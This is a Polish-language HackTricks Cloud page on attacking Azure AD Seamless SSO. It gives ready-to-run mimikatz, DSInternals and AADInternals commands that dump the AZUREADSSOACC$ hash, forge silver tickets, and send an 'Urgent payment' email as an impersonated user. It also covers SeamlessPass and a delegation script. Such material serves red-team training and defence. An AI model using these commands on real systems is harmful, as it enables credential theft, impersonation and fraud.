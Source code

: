 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatycznie **loguje użytkowników, gdy są na swoich urządzeniach firmowych** podłączonych do sieci firmowej. Po włączeniu, **użytkownicy nie muszą wpisywać swoich haseł, aby zalogować się do Azure AD**, a zazwyczaj nawet wpisywać swoich nazw użytkowników. Ta funkcja zapewnia użytkownikom łatwy dostęp do aplikacji w chmurze bez potrzeby posiadania dodatkowych komponentów lokalnych.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Zasadniczo Azure AD Seamless SSO **loguje użytkowników**, gdy są **na komputerze dołączonym do lokalnej domeny**.

Jest wspierane zarówno przez [**PHS (Password Hash Sync)**](phs-password-hash-sync.md), jak i [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO używa **Kerberos** do uwierzytelniania. Po skonfigurowaniu, Azure AD Connect tworzy **konto komputera o nazwie AZUREADSSOACC`$`** w lokalnym AD. Hasło konta `AZUREADSSOACC$` jest **wysyłane w postaci niezaszyfrowanej do Azure AD** podczas konfiguracji.

**Bilety Kerberos** są **szyfrowane** przy użyciu **NTHash (MD4)** hasła, a Azure AD używa wysłanego hasła do odszyfrowania biletów.

**Azure AD** udostępnia **punkt końcowy** (https://autologon.microsoftazuread-sso.com), który akceptuje **bilety** Kerberos. Przeglądarka maszyny dołączonej do domeny przesyła bilety do tego punktu końcowego w celu SSO.

### On-prem -> cloud

**Hasło** użytkownika **`AZUREADSSOACC$` nigdy się nie zmienia**. Dlatego administrator domeny mógłby skompromitować **hash tego konta**, a następnie użyć go do **tworzenia srebrnych biletów** do połączenia się z Azure z **dowolnym użytkownikiem lokalnym zsynchronizowanym**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Z hashem możesz teraz **generować srebrne bilety**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Aby wykorzystać srebrny bilet, należy wykonać następujące kroki:

1. **Uruchom przeglądarkę:** Należy uruchomić Mozilla Firefox.
2. **Skonfiguruj przeglądarkę:**
* Przejdź do **`about:config`**.
* Ustaw preferencję dla [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) na określone [wartości](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Uzyskaj dostęp do aplikacji internetowej:**
* Odwiedź aplikację internetową, która jest zintegrowana z domeną AAD organizacji. Typowym przykładem jest [Office 365](https://portal.office.com/).
4. **Proces uwierzytelniania:**
* Na ekranie logowania należy wpisać nazwę użytkownika, pozostawiając pole hasła puste.
* Aby kontynuować, naciśnij TAB lub ENTER.

{% hint style="success" %}
To nie omija MFA, jeśli jest włączone
{% endhint %}

#### Opcja 2 bez dcsync - SeamlessPass

Możliwe jest również przeprowadzenie tego ataku **bez ataku dcsync**, aby być bardziej dyskretnym, jak [wyjaśniono w tym wpisie na blogu](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). W tym celu potrzebujesz tylko jednego z poniższych:

* **TGT skompromitowanego użytkownika:** Nawet jeśli go nie masz, ale użytkownik został skompromitowany, możesz go uzyskać, używając sztuczki z delegowaniem fałszywego TGT, zaimplementowanej w wielu narzędziach, takich jak [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) i [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Złoty bilet**: Jeśli masz klucz KRBTGT, możesz stworzyć TGT, którego potrzebujesz dla zaatakowanego użytkownika.
* **Hash NTLM lub klucz AES skompromitowanego użytkownika:** SeamlessPass skomunikuje się z kontrolerem domeny z tymi informacjami, aby wygenerować TGT.
* **Hash NTLM lub klucz AES konta AZUREADSSOACC$:** Z tymi informacjami i identyfikatorem bezpieczeństwa (SID) użytkownika, którego atakujesz, możliwe jest stworzenie biletu usługi i uwierzytelnienie się w chmurze (jak wykonano w poprzedniej metodzie).

Na koniec, z TGT możliwe jest użycie narzędzia [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) z:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Dalsze informacje na temat ustawienia Firefoksa do pracy z seamless SSO można [**znaleźć w tym wpisie na blogu**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Tworzenie biletów Kerberos dla użytkowników tylko w chmurze~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Jeśli administratorzy Active Directory mają dostęp do Azure AD Connect, mogą **ustawić SID dla dowolnego użytkownika w chmurze**. W ten sposób bilety Kerberos **mogą być tworzone również dla użytkowników tylko w chmurze**. Jedynym wymaganiem jest, aby SID był odpowiednim [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Zmiana SID użytkowników administracyjnych tylko w chmurze jest teraz **zablokowana przez Microsoft**.\
Aby uzyskać więcej informacji, sprawdź [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Chmura za pomocą ograniczonej delegacji opartej na zasobach <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Każdy, kto może zarządzać kontami komputerów (`AZUREADSSOACC$`) w kontenerze lub OU, w którym znajduje się to konto, może **skonfigurować ograniczoną delegację opartą na zasobach dla tego konta i uzyskać do niego dostęp**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Jestem w chmurze, czytam e-maile wszystkich - hakowanie Azure AD przez Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
